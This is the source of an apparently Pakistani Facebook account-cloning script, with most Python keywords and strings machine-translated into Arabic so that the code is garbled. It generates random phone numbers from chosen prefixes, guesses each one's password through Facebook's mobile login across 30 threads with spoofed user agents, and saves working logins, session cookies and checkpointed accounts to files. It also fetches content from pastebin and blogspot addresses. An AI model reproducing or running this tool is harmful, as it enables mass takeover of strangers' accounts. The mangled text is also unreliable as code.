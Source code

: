 # -
# - SCRIPT UTA LE
# - AUR اتبع KARNA NA BHOOLNA

من  bs4  استيراد  BeautifulSoup  as  sop
من  المتزامن . استيراد العقود الآجلة  ThreadPoolExecutor كـ tred   
استيراد  نظام التشغيل ، sys ، الوقت ، json ، عشوائي ، إعادة ، سلسلة ، منصة ، base64 ، منصة ، uuid
 مارشال الاستيراد
جرب :
     طلبات الاستيراد
    من  المتزامن . استيراد العقود الآجلة  ThreadPoolExecutor كـ ThreadPool   
    استيراد  الميكنة
    من  الطلبات . استثناءات  استيراد  ConnectionError
باستثناء  ModuleNotFoundError :
    نظام التشغيل . النظام ( "العقود الآجلة لتركيب النقطة == 2> / dev / null" )
    نظام التشغيل . النظام ( "python ALONE.py" )
من  bs4  استيراد  BeautifulSoup
أوجين  = []
أ  =  ' \ x1 ب [1 ؛ 97 م' 
ب  =  ' x1b [1 ؛ 96 م' 
C  =  ' x1b [1 ؛ 91 م' 
د  =  ' \ x1 ب [1 ؛ 92 م'
م  =  ' \ 033 [1 ؛ 31 م'
ح  =  ' \ 033 [1 ؛ 32 م'
N  =  ' \ x1b [1 ؛ 37 م'    
E  =  ' x1b [1 ؛ 93 م' 
F  =  ' \ x1b [1 ؛ 94 م'
G  =  ' x1b [1 ؛ 95 م'
ف  =  ' \ 033 [1 ؛ 37 م'
الأحمر  =  ' \ 033 [1 ؛ 91 م'
الأبيض  =  ' \ 033 [1 ؛ 97 م'
الأخضر  =  ' \ 033 [1 ؛ 32 م'  #
الأصفر  =  ' 033 [1 ؛ 33 م'
أزرق  =  ' \ 033 [1 ؛ 34 م'
البرتقالي  =  ' \ 033 [1 ؛ 35 م'
LUQMAN  =  "{Lofe Liby}"
لـ  xd  في  النطاق ( 10000 ):
    أ = "Mozilla / 5.0 (Linux ، U ، Android"
    ب = عشوائي . اختيار ([ '6' ، '7' ، '8' ، '9' ، '10' ، '11' ، '12' ])
    ج = 'en-us ؛ GT- '
    د = عشوائي . اختيار ([ "A" ، "B" ، "C" ، "D" ، "E" ، " F" ، "G" ، "H" ، "I" ، "J" ، "K" ، "L" ، "M" ، "N" ، "O" ، "P " ، "Q" ، "R" ، "S" ، "T" ، "U" ،، "Z" ])
    البريد = عشوائي . راندرانج ( 1 ، 999 )
    و = عشوائي . اختيار ([ "A" ، "B" ، "C" ، "D" ، "E" ، " F" ، "G" ، "H" ، "I" ، "J" ، "K" ، "L" ، "M" ، "N" ، "O" ، "P " ، "Q" ، "R" ، "S" ، "T" ، "U" ،، "Z" ])
    g = 'AppleWebKit / 537.36 (KHTML ، مثل Gecko) Chrome /'
    ح = عشوائي . راندرانج ( 73 ، 100 )
    أنا = '0'
    j = عشوائي . راندرانج ( 4200 ، 4900 )
    ك = عشوائي . راندرانج ( 40 ، 150 )
    l = 'Mobile Safari / 537.36'
    uaku2 = f ' { a }  { b } ؛ { ج } { د } { هـ } { و } ) { ز } { ح } . { ط } . { ي } . { ك }  { ل } '
    اوجين . إلحاق ( uaku2 )
جرب :
    نظام التشغيل . النظام ( "https://pastebin.com/edit/rD825csJ" )
باستثناء :
    يمر
sock = open ( 'ua.html' ، 'r' ). قراءة (). خطوط الانقسام ()
def  uaku ():
    جرب :
        ua = مفتوح ( 'bbnew.txt' ، 'r' ). قراءة (). خطوط الانقسام ()
        لـ  ub  في  ua :
            اوجين . إلحاق ( ub )
    باستثناء :
        أ = الطلبات . الحصول على ( 'https://bacho1001.blogspot.com/2022/07/ua.html' ). نص
        ua = فتح ( '.user-agent.txt' ، 'w' )
        أأ = إعادة . findall ( 'line "> (. *؟) <' ، str ( a ))
        للأمم  المتحدة  في  aa :
            ua . الكتابة ( un + ' \ n ' )
        ua = مفتوح ( '.user-agent.txt' ، 'r' ). قراءة (). خطوط الانقسام ()
حلقة  =  0
cps  = []
حسنًا  = []
twf  = []
نظام التشغيل . النظام ( 'xdg-open https://www.facebook.com/groups/865552464137289/ ؟
نظام التشغيل . النظام ( 'xdg-open https://www.facebook.com/groups/865552464137289/ ؟

def  واضح ():
    نظام التشغيل . نظام ( "واضح" )
    طباعة ( شعار )

الشعار  =  "" "
\ t \ x1b [1؛ 97m ### ## ####### ## ## ########    
\ t \ x1b [1؛ 92 م ## ## ## ## ## ### ## ##       
\ t \ x1b [1؛ 97 م ## ## ## ## ## #### ## ##       
\ t \ x1b [1؛ 92 م ## ## ## ## ## ## ## ## ######   
\ t \ x1b [1؛ 97m ######### ## ## ## ## #### ##
\ t \ x1b [1؛ 92 م ## ## ## ## ## ## ### ##
\ t \ x1b [1؛ 97m ## ## ######## ####### ## ## ########

  المؤلف: سايلنت هاكر
  الفيسبوك: السيد الشيطان
  جيثب: صامت 786
  حالة الحياة: وحده
  مجموعة FB: SILENT HACKER 0001
  حالة الأداة: مجاني                             
\ 033 [1؛ 91 م ============================================= ============== "" "






def  linex ():
    طباعة ( f ' { GREEN } =========================================== =============== ' )
 الشيكات def ( oks ، cps ، twf ):
    إن  لم يكن  لين ( موافق ) ! =  0 :
        يمر
    إذا كان  len ( cps ) ! =  0 :
        طباعة ( ' \ n \ n \ x1b [1؛ 97m TOTAL OK: \ x1b [1؛ 97m٪ s   \ x1b [1؛ 97mALONE-OK.txt'  ٪ (
            H ، P ، str ( لين ( موافق ))))
        طباعة ( ' \ x1b [1؛ 97m TOTAL CP: \ x1b [1؛ 97m٪ s \ x1b [1؛ 97mALONE-CP.txt'  ٪
              ( H ، P ، str ( len ( cps ))))
        طباعة ( ' \ x1b [1؛ 97 م TOTAL 2F: \ x1b [1؛ 97m٪ s \ x1b [1؛ 97mALONE-2F.txt'  ٪
              ( H ، P ، str ( len ( twf ))))
        الإدخال ( " \ x1b [1؛ 97mPRESE ENTER TO BACK xyz" )
        xyz ()
حلقة  =  0
cps  = []
حسنًا  = []
twf  = []
def  cek_apk ( جلسة ، coki ):
    w = جلسة . الحصول على ( "https://mbasic.facebook.com/settings/apps/tabbed/؟tab=active" ، ملفات تعريف الارتباط = { "ملف تعريف الارتباط" : coki }). نص
    sop  =  BeautifulSoup ( w ، "html.parser" )
    س  =  سوب . find ( "form" ، method = "post" )
    لعبة  = [ i . نص  لـ  i  في  x . find_all ( "h3" )]
    إذا  كان لين ( لعبة ) == 0 :
        طباعة ( f ' \ r ٪ s [٪ s!٪ s]٪ s { ORANGE } نأسف لعدم وجود ملفات APK نشطة 🎮٪ s' ٪ ( برتقالي ))
    آخر :
        طباعة ( f ' \ r  { أخضر } [√]٪ s تفاصيل التطبيق النشط:' ٪ ( أخضر ))
        لأني  في  النطاق  ( لين ( لعبة )) :
            طباعة ( f " \ r ٪ s [٪ s]٪ s٪ s" ٪ ( N ، i + 1 ، game [ i ]. replace ( "Ditambahkan pada" ، "Ditambahkan pada" )، N ))
        #آخر:
            #print (f '\ r٪ s [٪ s!٪ s] عذرًا ، فشل التحقق من Apk في ملف تعريف ارتباط غير صالح'٪ (N ، M ، N))
    w = جلسة . الحصول على ( "https://mbasic.facebook.com/settings/apps/tabbed/؟tab=inactive" ، ملفات تعريف الارتباط = { "ملف تعريف الارتباط" : coki }). نص
    sop  =  BeautifulSoup ( w ، "html.parser" )
    س  =  سوب . find ( "form" ، method = "post" )
    لعبة  = [ i . نص  لـ  i  في  x . find_all ( "h3" )]
    إذا  كان لين ( لعبة ) == 0 :
        طباعة ( f ' \ r ٪ s [٪ s!٪ s]٪ s { ORANGE } نأسف لعدم انتهاء صلاحية ملفات APK 🎮٪ s' ٪ ( برتقالي ))
    آخر :
        طباعة ( f ' \ r 🎮٪ { RED } sYOUR EXPIRED APKS DETAILS:' ٪ ( RED ))
        لأني  في  النطاق  ( لين ( لعبة )) :
            طباعة ( f " \ r ٪ s [٪ s]٪ s٪ s" ٪ ( N ، i + 1 ، game [ i ]. استبدل ( "Kedaluwarsa" ، "Kedaluwarsa" ) ، N ))
            print ( f " { GREEN } [√] ---------------------------------------- ----------- [√] " )
    # ____________ #
def  xyz ():
    نظام التشغيل . نظام ( "play-audio WELCOME_TO_HAMI_BOOT_818.mp3" )
    نظام التشغيل . Getuid
    نظام التشغيل . نظام ( "مسح" ) ؛ طباعة ( شعار )
    طباعة ( '            \ x1b [97m [ \ 033 [37؛ 41m MAINMENU    \ 033 [0؛ m]' )
    طباعة ( f "" )
    طباعة ( f " { BLUE } [01] { GREEN } RANDOM CLONE PAK M1" )
    طباعة ( f " { BLUE } [00] { GREEN } EXIT PROGRAM" )
    طباعة ( f "" )
    طباعة ( f " \ 033 [1؛ 91m ========================================== ================ " )
    Lofe Liby  =  الإدخال ( "[√] اختر:" )
    إذا كان  LUQMAN  في [ "1" ، "01" ]:
        تابي ()
    إليف  لوكمان  في [ "0" ، "00" ]:
       خروج ()
    آخر :
        طباعة ( ' \ 033 [1؛ 31mINCORECT OPTION! \ 033 [1؛ 31m' )
        xyz ()

# _____________ #
 
# _____________________ #

def  Tabii ():
    المستخدم = []
    نظام التشغيل . Getuid
    نظام التشغيل . geteuid
    نظام التشغيل . نظام ( "مسح" )
    طباعة ( شعار )
    طباعة ( f "" )
    واضح ()
    طباعة ( f "           \ x1b [97m [ \ 033 [37؛ 41m CODEMENU    \ 033 [0؛ m]" )
    طباعة ( f "" )
    لينكس ()
    طباعة ( f "         \ x1b [97m [ \ 033 [95؛ 42mEXAMPLE: 👇 \ 033 [0؛ m]" )
    طباعة ( f "" )
    طباعة ( '0306، 0300، 0315، 0333' )
    طباعة ( f "0341 ، 0342 ، 0345 ، 0349" )
    طباعة ( f "0321 ، 0316 ، 0308 ، 0309" )
    طباعة ( f "" )
    لينكس ()
    code  =  input ( 'PUT CODE:' )
    نظام التشغيل . نظام ( "مسح" )
    طباعة ( شعار )
    طباعة ( f "" )
    طباعة ( f "           \ x1b [97m [ \ 033 [37؛ 41m LIMITMENU    \ 033 [0؛ m]" )
    طباعة ( f "" )
    Limit  =  int ( input ( 'EXAMPLE: 1000، 2000، 5000، 10000 \ n \ n PUT CLONING LIMIT:' ))
    لـ  nmbr  في  النطاق ( الحد ):
        nmp  =  " . الانضمام ( اختيار عشوائي ( سلسلة . أرقام ) لـ _ في النطاق ( 7 ) )   
        مستخدم . إلحاق ( nmp )
    مع  ThreadPool ( max_workers = 30 ) مثل  yaari :    
        واضح ()
        tl  =  str ( لين ( مستخدم ))
        طباعة ( f " { BLUE } TOTAL IDZ: { GREEN } " + tl )
        طباعة ( f " { BLUE } COUNTRY CHOOSE: { GREEN } PAKISTAN" )
        طباعة ( f " { BLUE } NUMBER YOU PUT: { GREEN } " + كود )
        طباعة ( f " { BLUE } PROCESS HAS BEEN STARTED" )
        طباعة ( f ' { GREEN } =========================================== ================ ' )
        للحب  في المستخدم : _  
            uid  =  رمز + حب
            pwx  = [ حب ]
            ياري . إرسال ( free ، uid ، pwx ، tl )
def  free ( uid ، pwx ، tl ):
     حلقة عالمية
     الموافقة العالمية
     وكلاء عالميين
    جرب :
        لـ  ps  في  pwx :
            ثنائية  =  عشوائية . اختيار ([ A ])
            جلسة  =  طلبات . الجلسة ()
            المؤيد  =  عشوائي . اختيار ( يوجين )
            free_fb  =  جلسة . الحصول على ( 'https://m.facebook.com' ). نص
            log_data  = {
                "lsd" : re . البحث ( 'name = "lsd" value = "(. *؟)"' ، str ( free_fb )). مجموعة ( 1 ) ،
            "jazoest" : re . البحث ( 'name = "jazoest" value = "(. *؟)"' ، str ( free_fb )). مجموعة ( 1 ) ،
            "m_ts" : re . البحث ( 'name = "m_ts" value = "(. *؟)"' ، str ( free_fb )). مجموعة ( 1 ) ،
            "لي" : إعادة . البحث ( 'name = "li" value = "(. *؟)"' ، str ( free_fb )). مجموعة ( 1 ) ،
            "try_number" : "0" ،
            "unrecognized_tries" : "0" ،
            "البريد الإلكتروني" : uid ،
            "تمرير" : ps ،
            "تسجيل الدخول" : "تسجيل الدخول" }
            header_freefb  = { 'السلطة' : 'm.facebook.com' ،
            "الطريقة" : "POST" ،
            "المخطط" : "https" ،
            'Accept' : 'text / html، application / xhtml + xml، application / xml؛ q = 0.9، image / avif، image / webp، image / apng، * / *؛ q = 0.8، application / signature-exchange؛ v = b3 ؛ ف = 0.9 ' ،
            'Accept-encoding' : 'utf-8' ، 'Accept-language' : 'en-US، en؛ q = 0.9' ،
            'cache-control' : 'max-age = 0' ،
            'sec-ch-ua' : '"ليست علامة تجارية" ؛ v = "99" ، "Chromium" ؛ v = "101"' ،
            'sec-ch-ua-mobile' : '؟ 1' ، 'sec-ch-ua-platform' : '"Android" " ،
            'sec-fetch-dest' : 'document' ،
            "وضع الجلب الثاني" : "التنقل" ،
            "sec-fetch-site" : "لا شيء" ،
            'sec-fetch-user' : '؟ 1' ،
            "طلبات الترقية غير الآمنة" : "1" ،
            "وكيل المستخدم" : pro }
            لو  =  جلسة . post ( 'https://m.facebook.com/login/device-based/ Regular/login/؟refsrc=deprecated&؛lwv=100&؛refid=8' ، data = log_data ، headers = header_freefb ). نص
            log_cookies = جلسة . ملفات تعريف الارتباط . get_dict (). مفاتيح ()
            إذا كان  'c_user'  في  log_cookies :
                coki = "؛" . انضم ([ key + "=" + value  for  key ، value  in  session . cookies . get_dict (). items ()])
                cid  =  coki [ 7 : 22 ]
                طباعة ( ' \ r \ 033 [1؛ 32 م [√] --------------------- [ALONE-OK] ---------- ---------- [√] \ n NUMBER: ' + uid + ' \ n UID: ' + cid + ' √ ' + ps +  ' \ n ملف تعريف الارتباط: ' + coki + ' \ n [√ ] ------------------------------------------------- - [√] ' )
                cek_apk ( جلسة ، coki )
                افتح ( '/sdcard/ALONE-OK.txt' ، 'a' ). اكتب ( cid + '|' + ps + ' \ n ' )
                حسنًا . إلحاق ( سيد )
                استراحة
             "نقطة تفتيش"  elif في  log_cookies :
                coki = "؛" . انضم ([ key + "=" + value  for  key ، value  in  session . cookies . get_dict (). items ()])
                cid = coki [ 24 : 39 ]
                الأحمر  =  ' \ 033 [1 ؛ 31 م'
                print ( f ' \ r { Red } [×] -------------------- [ALONE-CP] ------------- -------- [×] \ n NUMBER: ' + uid + ' \ n UID: ' + cid + ' √ ' + ps +  ' \ n [×] ---------- ----------------------------------------- [×] \ 033 [1؛ 97m " )
                افتح ( '/sdcard/ALONE-CP.txt' ، 'a' ). اكتب ( cid + '|' + ps + ' \ n ' )
                cps . إلحاق ( سيد )
                استراحة
            elif  '/ x / checkpoint'  في  log_cookies :
                coki = "؛" . انضم ([ key + "=" + value  for  key ، value  in  session . cookies . get_dict (). items ()])
                cid = coki [ 7 : 22 ]
                الأحمر  =  ' \ 033 [1 ؛ 31 م'
                طباعة ( f ' \ r { YELLOW } [TEMP-LOCK]' + cid + '|' + ps + ' \ 033 [1؛ 97m' )
                افتح ( '/sdcard/ALONE-2F.txt' ، 'a' ). اكتب ( cid + '|' + ps + ' \ n ' )
                twf . إلحاق ( سيد )
            آخر :
                يكمل
        حلقة + = 1
        sys . stdout . كتابة ( f ' \ r \ 33 [1؛ 37m [ALONE] [٪ s] \ 33 [1؛ 97m [OK:٪ s ~ CP:٪ s]'٪ ( loop ، len ( oks ) ، len ( cps ) )) ،
        sys . stdout . تدفق ()
        الشيكات ( موافق ، cps ، twf )
